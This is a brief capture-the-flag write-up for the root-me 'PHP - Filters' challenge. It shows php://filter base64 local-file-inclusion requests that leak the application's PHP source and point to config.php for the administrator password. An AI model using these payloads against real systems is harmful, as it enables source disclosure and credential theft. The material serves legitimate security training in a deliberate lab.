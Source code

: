 # PHP Filters

[root-me challenge: PHP - Filters](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters): FileManager v 0.01 | Retrieve the administrator password of this application.

----

```text
/web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=index.php
```

Gives:

```text

PD9waHAgaW5jbHVkZSgiY2gxMi5waHAiKTs/Pg==
```

Base64 decode:

```text
<?php include("ch12.php");?>
```

```text
web-serveur/ch12/?inc=php://filter/convert.base64-encode/resource=ch12.php
```

Gives:

```text
PD9waHAKCiRpbmM9ImFjY3VlaWwucGhwIjsKaWYgKGlzc2V0KCRfR0VUWyJpbmMiXSkpIHsKICAgICRpbmM9JF9HRVRbJ2luYyddOwogICAgaWYgKGZpbGVfZXhpc3RzKCRpbmMpKXsKCSRmPWJhc2VuYW1lKHJlYWxwYXRoKCRpbmMpKTsKCWlmICgkZiA9PSAiaW5kZXgucGhwIiB8fCAkZiA9PSAiY2gxMi5waHAiKXsKCSAgICAkaW5jPSJhY2N1ZWlsLnBocCI7Cgl9CiAgICB9Cn0KCmluY2x1ZGUoImNvbmZpZy5waHAiKTsKCgplY2hvICcKICA8aHRtbD4KICA8Ym9keT4KICAgIDxoMT5GaWxlTWFuYWdlciB2IDAuMDE8L2gxPgogICAgPHVsPgoJPGxpPjxhIGhyZWY9Ij9pbmM9YWNjdWVpbC5waHAiPmhvbWU8L2E
```

Base64 decode:

```text
<?php
...
include("config.php");
...
```

Decode, and get password.

## Resources

* [LFI/RFI using PHP wrappers & protocols](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols)

